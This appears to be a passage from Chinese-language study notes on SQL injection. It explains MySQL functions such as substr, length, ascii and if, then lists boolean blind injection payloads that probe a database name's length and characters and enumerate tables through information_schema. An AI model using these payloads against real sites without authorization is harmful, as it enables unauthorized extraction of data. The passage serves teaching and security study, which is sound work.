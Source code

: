   ```sql
  select substr(database(),1,3)
  ```

###### ②length()

* 获取数据库长度

* 使用方法：length(arg1)，arg1代表字符串(数据库名)

  ```sql
  select length(database())
  ```

###### ③ascii()

* 将单一字符，转化为ascii码值

* 使用方法：ascii(str)，str代表字符

  ```sql
  select ascii('a')
  ```

###### ④if()

* 条件判断

* 使用方式：if(exp1,true,false)

  ```sql
  select if(length(database())>0,1,0)
  ```

###### ⑤count()

* 判断记录数

##### c. 注入流程

###### ①数据库名长度

```sql
1' and (length(database()))=n --+		//n为数据库名长度
```

###### ②数据库名称

```sql
1' and (ascii(substr(database(),n,1))=m) --+		//n为第几个位置，m为ascii码[65,122]
```

###### ③表名长度

```sql
1' and (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=m) --+
  //m为表名长度
//获取表的个数
1' and (select count(*) from information_schema.tables where table_schema=database())=m -- qwe	//m为表的个数
```
